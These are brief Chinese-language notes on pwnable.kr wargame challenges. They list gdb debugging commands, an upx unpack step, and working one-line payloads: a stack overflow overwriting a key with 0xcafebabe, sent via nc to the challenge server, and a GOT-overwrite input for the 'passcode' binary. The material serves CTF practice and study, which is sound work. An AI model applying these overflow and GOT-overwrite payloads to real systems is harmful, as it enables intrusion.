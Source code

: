 # pwnable.kr

## fd

## collision

## bof

-   动态调试
    -   设置断点: `b main`
    -   开始运行: `r`
    -   单步调试: `n`
    -   单步步入：`s`
    -   创建一个64字节的测试 payload: `pattern create 64`
    -   查看目标地址: `p $ebp+0x8`
    -   查看地址状态: `telescope 25`
    -   故构造payload: `(python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000`
-   静态调试
    -   `s=$esp+1ch`
    -   `a1=$esp+50h`
    -   `payload = 'j' * 52 + p32(key)`

## flag

-   `upx -q -d flag -ofalg_upx`

## passcode

-   `name`可溢出
-   `scanf`使用错误，导致将输入值写入到`passcod1`的值所代表的地址上（即`passcode1`的地址上存的内容将被视为输入的目标地址）
    -   `mov edx, [ebp+var_10]`应为`lea edx, [ebp+var_10]`
-   利用`name`溢出将`passcode1`内容覆盖为`GOT`内某个函数的地址，然后输入值设为某个想要作为替代（可获得flag）的代码地址
-   `python -c "print 'j'*0x60+'\x04\xa0\x04\x08'+ '134514147\n'" | ./passcode`
